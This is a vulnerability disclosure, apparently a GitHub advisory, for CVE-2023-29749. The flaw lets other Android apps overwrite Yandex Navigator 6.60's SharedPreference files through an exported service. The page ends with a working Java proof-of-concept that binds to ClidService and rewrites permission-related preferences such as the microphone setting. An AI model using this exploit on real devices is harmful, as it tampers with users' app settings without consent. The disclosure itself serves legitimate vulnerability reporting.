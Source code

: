 # Escalation of Privileges exists in Yandex Navigator（CVE-2023-29749）

Vendor: Yandex (https://yandex.com/)

Affected product: Yandex Navigator(ru.yandex.yandexnavi)

Version: 6.60

Download link：https://play.google.com/store/apps/details?id=ru.yandex.yandexnavi&pli=1

Description of the vulnerability for use in the CVE：An issue found in Yandex Navigator v.6.60 allows unauthorized apps to cause escalation of privilege attacks by manipulating the SharedPreference files.

Additional information:  The Yandex Navigator application allows unauthorized applications to modify the data in its SharedPreference file, which is loaded into memory for use at application startup, thus affecting the implementation of certain features of the application. For example, an attacker can modify the "notification-enabled" value in the ru.yandex.yandexnavi.preferences.xml file through the interface provided in the exposed components of the Yandex Navigator application. This can turn off the search box in the notification bar of the application, affecting the normal functionality of the application and causing an escalation of privilege attack. In fact, attacker can insert data into any SharedPreferences file whose name start with 'ru.yandex.yandexnavi.', like 'ru.yandex.yandexnavi.ui.PermissionDelegateImpl.PREFERENCES' . In fact, I found that there are many SharedPreferences files like this and they store a lot of important data.

poc：

```java
public void attack_ru() {
        ComponentName componentName = new ComponentName("ru.yandex.yandexnavi", "ru.yandex.common.clid.ClidService");
        Intent intent = new Intent();
        intent.setComponent(componentName);
        intent.putExtra("service_version", 0);
        intent.setAction("ru.yandex.common.clid.update_preferences");
        intent.putExtra("preferences", "ui.PermissionDelegateImpl.PREFERENCES");
        intent.putExtra("application", "ru.yandex.yandexnavi");
        Bundle bundle = new Bundle();
        Bundle bundle2 = new Bundle();
        Bundle bundle3 = new Bundle();
        bundle2.putBoolean("MICROPHONE", false);
        long time = 1657202353619L;
        bundle3.putLong("MICROPHONE", time);
        bundle.putBundle("bundle-values", bundle2);
        bundle.putBundle("bundle-time", bundle3);
        intent.putExtra("bundle", bundle);
        ServiceConnection connection = new ServiceConnection() {
            @Override
            public void onServiceConnected(ComponentName name, IBinder service) {
            }
            @Override
            public void onServiceDisconnected(ComponentName name) {
            }
        };
        bindService(intent, connection, BIND_AUTO_CREATE);
    }
```



